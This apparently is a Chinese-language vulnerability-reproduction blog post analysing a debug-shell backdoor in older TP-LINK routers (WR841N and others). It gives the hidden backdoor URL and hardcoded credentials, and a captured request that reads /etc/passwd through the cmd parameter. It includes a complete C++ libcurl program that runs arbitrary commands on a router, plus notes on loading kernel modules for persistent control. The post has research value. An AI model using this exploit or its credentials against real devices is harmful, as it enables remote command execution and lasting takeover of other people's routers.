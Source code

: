 ```yaml
---
layout: post
title:  "TP-LINK Shell调试后门浅析"
date:   2017-12-06
categories: 漏洞复现
permalink: /archivers/2017-12-06/1
description: "本篇文章介绍一个TP-LINK低版本的一个Shell调试后门"
---
```

本篇文章介绍一个TP-LINK低版本的一个调试后门
<!--more-->
## 0x00 前言

TPLINK 存在一个 Shell 调试后门，TPLINK WR941N V2_090803 路由器 后门，TP-link路由器后门漏洞。

影响版本：

WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N

## 0x01 分析

该后门的地址在：`/userRpmNatDebugRpm26525557/linux_cmdline.html`

在公司刚好有一台，它的版本是：`TL-WR841N`。


![0x00](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x00.png)


参考网上文章获得了用户名和密码：`osteam/5up`

![0x01](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x01.png)

那么它是怎么执行命令的呢？会不会存在越权情况？PS:后来发现它必须要登录路由器才可以访问到这个Shell接口


通过抓包发现，它会将命令发送到另外一个页面：


![0x02](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x02.png)


并且命令结果都在JS代码块中。

```
GET /userRpm/DebugResultRpm.htm?cmd=cat%20/etc/passwd&usr=osteam&passwd=5up HTTP/1.1
Host: 192.168.3.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.1/userRpmNatDebugRpm26525557/linux_cmdline.html
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1

----------------------------------


HTTP/1.1 200 OK
Server: TP-LINK Router
Connection: close
Content-Type: text/html
WWW-Authenticate: Basic realm="TP-LINK Wireless N Router WR841N"

<SCRIPT language="javascript" type="text/javascript">
var cmdResult = new Array(
"cat /etc/passwd&\r\n811\r\n# root:x:0:0:root:/root:/bin/sh\r\nAdmin:x:0:0:root:/root:/bin/sh\r\nbin:x:1:1:bin:/bin:/bin/sh\r\ndaemon:x:2:2:daemon:/usr/sbin:/bin/sh\r\nadm:x:3:4:adm:/adm:/bin/sh\r\nlp:x:4:7:lp:/var/spool/lpd:/bin/sh\r\nsync:x:5:0:sync:/bin:/bin/sync\r\nshutdown:x:6:11:shutdown:/sbin:/sbin/shutdown\r\nhalt:x:7:0:halt:/sbin:/sbin/halt\r\nuucp:x:10:14:uucp:/var/spool/uucp:/bin/sh\r\noperator:x:11:0:Operator:/var:/bin/sh\r\nnobody:x:65534:65534:nobody:/home:/bin/sh\r\nap71:x:500:0:Linux User,,,:/root:/bin/sh\r\n\r\n",
0,0 );
</SCRIPT>
<META http-equiv=Content-Type content="text/html; charset=gb2312">
<HTML>
<HEAD><TITLE>TL-WR841N</TITLE>
<META http-equiv=Pragma content=no-cache>
<META http-equiv=Expires content="wed, 26 Feb 1997 08:21:57 GMT">
<LINK href="/dynaform/css_main.css" rel=stylesheet type="text/css">
<SCRIPT language="javascript" src="/dynaform/common.js" type="text/javascript"></SCRIPT>
<SCRIPT language="javascript" type="text/javascript"><!--
//--></SCRIPT>
<script language="Javascript">
function doGetResult()
{
	location.href="/userRpm/DebugResultRpm.htm";
}
</script>
</head>
<body>
</body>
</html>
<script language="JavaScript">
	var	timeInterVal = 2000;
	obj = parent.document.getElementById("result");
	var temp = obj.scrollTop;
	obj.value += cmdResult[0];
	obj.scrollTop = temp;
	if(parent.bIsonFocus == 0)
		obj.scrollTop = obj.scrollHeight;
	setTimeout("doGetResult()",timeInterVal);
</script>
```

其中：`Authorization: Basic YWRtaW46YWRtaW4=`就是路由器的权限认证方式了，并且调试接口的用户名密码是以GET方式传输的


## 0x02 动起手来

我使用C++写了一个测试的程序，主要是还原它发送的数据。

```cpp
#include <iostream>
#include <curl/curl.h>
#include <regex>
#include <string>
#define TIMEOUT 5

std::string m_replace(std::string strSrc,const std::string &oldStr, const std::string &newStr,int count=-1)
{
    std::string strRet=strSrc;
    size_t pos = 0;
    int l_count=0;
    if(-1 == count)
        count = strRet.size();
    while ((pos = strRet.find(oldStr, pos)) != std::string::npos)
    {
        strRet.replace(pos, oldStr.size(), newStr);
        if(++l_count >= count) break;
        pos += newStr.size();
    }
    return strRet;
}

size_t WriteData(void *pData, size_t size, size_t nmemb, void *stream)
{
    std::string *pStr = (std::string *)stream;

    size_t len  = size * nmemb;
    pStr->append((const char *)pData, len);

    return len;

}

int main(int argc,char * argv[]) {
    if(argc < 5){
        std::cout << "Usage: " << argv[0] << " <HOST> <Username> <Password> <Command>"<<std::endl;
        std::cout << "Version: WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N"<<std::endl;
        exit(EXIT_SUCCESS);
    }

    std::string host = argv[1];
    std::string username = argv[2];
    std::string password = argv[3];
    std::string command = argv[4];
    std::string body;
    std::string commands = curl_escape(command.data(),command.size());
    host="http://"+host+"/userRpm/DebugResultRpm.htm?cmd="+commands+"&usr=osteam&passwd=5up";

    CURL * curl = curl_easy_init();
    curl_easy_setopt(curl,CURLOPT_URL,host.c_str());
    curl_easy_setopt(curl,CURLOPT_TIMEOUT,TIMEOUT);
    curl_easy_setopt(curl,CURLOPT_USERNAME,username.c_str());
    curl_easy_setopt(curl,CURLOPT_PASSWORD,password.c_str());
    curl_easy_setopt(curl,CURLOPT_WRITEFUNCTION,WriteData);
    curl_easy_setopt(curl,CURLOPT_WRITEDATA,body);
    CURLcode res = curl_easy_perform(curl);
    if(res !=0){
        std::cout << "ERROR" << std::endl;
        curl_easy_cleanup(curl);
        exit(EXIT_SUCCESS);
    }
    int status = 0;
    curl_easy_getinfo(curl,CURLINFO_RESPONSE_CODE,&status);
    if(status != 200 || status == 401){
        std::cout << "ERROR Incorrect username or password." << std::endl;
        exit(EXIT_SUCCESS);
    }
    //std::cout << body << std::endl;
    std::regex match_command_result("\\(\\n.*\\n0,0 \\)");
    std::smatch mth;
    std::regex_search(body,mth,match_command_result);
    std::cout << m_replace(mth.str(),"\\r\\n","\n") << std::endl;
    curl_easy_cleanup(curl);
    return 0;
}

```

编译：`g++ main.cpp -lcurl -o tplinkShell`

使用过程：

![0x03](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x03.png)

:-) 正则写的不好，莫见怪

## 0x03 测试写入文件 - 编写内核模块

![0x04](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x04.png)

发现Web目录是不可写、不可读的。

参考：`https://www.cnblogs.com/amaoxiaozhu/archive/2013/03/08/2950002.html`

可以进行编写mod，使内核加载

![0x05](http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x05.png)


传送门：https://www.cnblogs.com/skyred99/p/5683710.html


这块先放着，后面如过理解了再尝试导入内核模块，永久控制路由器

```bash
payloads@koone:~$ ./tplinkShell 192.168.3.1 admin admin "/sbin/insmod"
(
"/sbin/insmod
BusyBox v1.01 (2009.01.06-01:38+0000) multi-call binary

Usage: insmod [OPTION]... MODULE [symbol=value]...

Loads the specified kernel modules into the kernel.

Options:
	-f	Force module to load into the wrong kernel version.
	-k	Make module autoclean-able.
	-v	verbose output
	-q	quiet output
	-L	Lock to prevent simultaneous loads of a module
	-o NAME	Set internal module name to NAME
	-x	do not export externs
```

insmod用于加载模块